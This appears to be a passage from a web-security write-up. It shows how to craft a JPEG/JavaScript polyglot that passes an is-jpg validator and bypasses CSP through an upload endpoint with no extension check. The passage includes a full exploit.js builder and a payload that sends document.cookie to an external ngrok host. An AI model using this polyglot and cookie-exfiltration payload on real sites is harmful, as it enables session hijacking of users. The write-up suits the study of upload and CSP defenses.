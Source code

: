 ```javascript 
			}catch (e){
				console.log(e);
				reject(e);
			}
			
		});
	}
```
The previous snippet makes usage of **is-Jpg** module with a non-vulnerable version within the **package.json** file, content is inspected and validated to be a valid .jpg file, the main weakness here is the absence of extension validation, meaning we can upload an avatar with .js extension, then bypass the CSP policy through importing the uploaded file, but first, we have to bypass the is-Jpg check. 

## Polyglots Power 
A research by Portswigger was published back in 2016, demonstating how Javascript can be injected in the structure of JPEG file, creating a valid Javascript and JPEG file at the same time, named as a polyglot, time to grasp your mind. 

We will first make use of the first four bytes of `FF D8 FF E0` (JPEG magic bytes) as if they're a Non-ASCII JavaScript variable, The following two bytes specify the length of the JPEG header, if we modified it to `0x2F 0x2A`, which accordingly represents `\*`, a multi-line JS comment, we now have a non-ascii variable followed by a multi-line comment, the rest of the header will be padded with nulls to fill the length of `0x2F 0x2A`, moving forward, we can create a JPEG comment by injecting `0xFF 0xFE`, the next two bytes also represents the JPEG comment length, following with the JPEG content itself, where we will be injecting out JS payload, the payload will start with a closing comment to close the comment created previously, then an assignment to the non-ascii variable, beside we can put whatever we want, but we have to open another multi-line comment to comment out all the remaining raw image data, the JS payload will look like: 

```javascript
*/=1;document.location="http://fec1-188-247-73-48.ngrok.io/?"+document.cookie;/*
``` 
Eventually, we have to edit the last four bytes of the image data before the end of image marker. 
Crafting a full working exploit 

**exploit.js**
```javascript 
const fs = require('fs');

const image = fs.readFileSync('images/exploit.jpg');
const hex = image.toString('hex');
const soi = hex.substr(0,8);
const commentStart = '2f2a'; // /*
const header = hex.substr(12,28);
const nullBytes = Array(11978).fill('00').join('');
const code = `*/=1;document.location="http://fec1-188-247-73-48.ngrok.io/?"+document.cookie;/*`.split('').map(e => e.charCodeAt(0).toString(16)).join('');
const payload = hex.substr(40, hex.length - 4);
const commentEnd = '2a2f'; // */
const eoi = hex.substr(hex.length - 4);
const injectedJsJpeg = soi + commentStart + header + nullBytes + code + payload + commentEnd + eoi;
const hexBinary = new Buffer(injectedJsJpeg, 'hex');

fs.writeFileSync('images/exploit.js', hexBinary);
```
